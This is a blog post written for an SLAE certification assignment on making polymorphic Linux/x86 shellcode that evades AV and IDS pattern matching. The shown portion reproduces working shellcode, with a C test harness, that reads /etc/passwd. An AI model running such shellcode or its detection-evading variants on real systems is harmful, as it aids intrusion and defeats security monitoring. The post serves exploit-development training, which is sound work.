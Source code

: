 ```yaml
---
layout: post
title: POLYMORPHIC_SHELLCODE_EXAMPLE – LINUX/X86
excerpt_separator: <!--more-->
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification
* Student ID: SLAE-1233
* Assignment: 6
* Github: [Kartik Durg](https://github.com/kartikdurg)


___

The objective of this assignment is to take up 3+ shellcode from Shell-Storm or Exploit-DB and create a polymorphic version of same to beat pattern matching.
Creating a polymorphic version means, modifying the code so that it is not generic but  functionality remains the same. By doing this,detecting a pattern becomes much difficult for AV’s and IDS.

In this post, we will see polymorphic examples of following shellcodes:

* [Linux/x86 – Tiny Read File Shellcode](http://shell-storm.org/shellcode/files/shellcode-842.php)
* [Linux/x86 – Tiny Execve sh Shellcode](http://shell-storm.org/shellcode/files/shellcode-841.php)
* [Linux/x86 – Kill all running process](http://shell-storm.org/shellcode/files/shellcode-626.php)

### 1) LINUX/X86 – TINY READ FILE SHELLCODE

The following shellcode is available on shell-storm which is written by Geyslan G. Bem:

#### Original code:

```
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = \
"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80"

main ()
{
   // When contains null bytes, printf will show a wrong shellcode length.
    printf("Shellcode Length:  %d\n", strlen(shellcode));
    // Pollutes all registers ensuring that the shellcode runs in any circumstance.
    __asm__ ("movl $0xffffffff, %eax\n\t"
            "movl %eax, %ebx\n\t"
            "movl %eax, %ecx\n\t"
            "movl %eax, %edx\n\t"
            "movl %eax, %esi\n\t"
            "movl %eax, %edi\n\t"
            "movl %eax, %ebp\n\t"

            // Calling the shellcode
            "call shellcode");
}
```
